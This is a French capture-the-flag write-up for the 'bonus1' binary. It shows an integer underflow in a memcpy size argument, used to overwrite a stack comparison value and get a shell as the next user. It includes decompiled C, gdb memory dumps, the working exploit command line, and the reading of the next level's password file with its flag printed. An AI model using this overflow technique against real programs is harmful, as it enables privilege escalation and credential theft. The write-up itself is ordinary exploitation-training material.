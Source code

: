 #  Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme doit passer 2 conditions qui lui permettront de lancer un `shell` avec les droits de bonus2.

 1. Notre premier argument doit-être inférieur à 10.
 2. Notre premier argument doit-être égal à  `0x574f4c46`  soit  `1464814662`en base 10.
```C
arg1 = atoi(argv[1]);
if (arg1 < 10) {
	memcpy(buffer, argv[2], (len(argv[1]) * 4));
	if (argv[1] == 0x574f4c46)
		execl("/bin/sh");
}
```
Il y a une contradiction entre ces deux conditions. Cela nous semble impossible d'arriver jusqu'au `bin/sh`. Visiblement la seule chose qui nous permettent de réaliser un exploit est le `memcpy`.

Voici le prototype de la fonction `memcpy`:
```
void  *memcpy(void  *dest,  const  void  * src,  size_t n)
```
On voit que le troisième argument de `memcpy` est un `size_t`. Le fait que cela soit un size_t va nous être très utile, puisque que c'est `non signé`.

On peut donc faire un `underflow` et faire copier un nombre d'octets assez grand à `memcpy` pour écraser notre valeur de comparaison. 
Voyons tout ça dans `gdb`.

```
> gdb ./bonus1
[...]
> (gdb) disass main 
[...]
	0x08048470 <+76>:	mov    %eax,(%esp)
	0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
	0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
[...]
```
On voit un call a `memcpy`. On va donc `break` juste après, sur la comparaison et lancer le programme avec différentes valeurs.
```
> (gdb) break *0x08048478
[...]
> (gdb) r 8 A
> [..]
> (gdb) x/20wx $esp
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000020	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x6e69622f
0xbffff6d0:	0x7361622f	0x45540068	0x783d4d52	0x6d726574
0xbffff6e0:	0x3635322d	0x00000000	0x080484b9	0x00000008
> (gdb) x $esp
0xbffff6b0:	0xbffff6c4
> (gdb) x $esp+0x3c
0xbffff6ec:	0x00000008
```
On affiche `esp` juste après l'appel à `memcpy`. Au moment de la comparaison, on peut voir `0x00000020` (32 en base 10). 
Nous avons mis `8` comme premier argument. On a `break` après `memcpy`, donc la multiplication par 4 s'est effectuée. `8 * 4 = 32`. 
`0x00000020` correspond donc bien à notre premier argument saisis après la multiplication par 4.
Lorsqu'on affiche `esp`, on obtient l'adresse de notre début de `buffer : 0xbffff6c4`.
Lorsqu'on affiche `esp+0x3c`, donc ce qui correspond a notre comparaison,  on obtient `0xbffff6ec`:`0x00000008`. Nous avons donc ici notre adresse de comparaison : `0xbffff6ec` et notre premier argument `0x00000008` (8 en base10).

Nous voulons maintenant savoir quelle valeur nous devons mettre afin que notre programme exécute bien un `shell`. 
Nous avons notre `adresse de cmp` ainsi que notre adresse de `debut de buffer`.
Nous allons donc faire 
```
[Adresse de cmp] - [adresse de début buffer]
0xbffff6ec - 0xbffff6c4 = 0x28 = 40
```
On peut vérifier cela avec gdb.
```
(gdb)x/20wx $esp
[...]
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000008	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x080484d1
								 ^
								 Début du buffer (0xbffff6c4)
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x00000002
											    ^
											    Fin du buffer (0xbffff6ec)
```

Sauf que notre dernière adresse n'est pas écrasée. On doit donc ajouter 4 octets pour avoir écraser l'adresse. 

On divise donc 44 / 4 car il sera multiplié par 4 dans le memcpy.
On obtient donc 11. Il va  écrire 11 fois la valeur de comparaison (`0x574f4c46`) .
Cette valeur de comparaison en little indian est donc `\x46\x4c\x4f\x57`.

On peut maintenant tester avec la valeur `int min` +  44.
```
-2147483647 + 44 = -2147483603
```

```
>(gdb) break *0x08048473
[...]
>(gdb) r -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*11'`
(gdb) continue
> [...]
process 3514 is executing new program: /bin/dash
```
Notre programme se lance bien !
```
./bonus1 -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*164'`
[...]
$whoami
[...]
bonus2
$ cat /home/user/bonus2/.pass
[...]
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```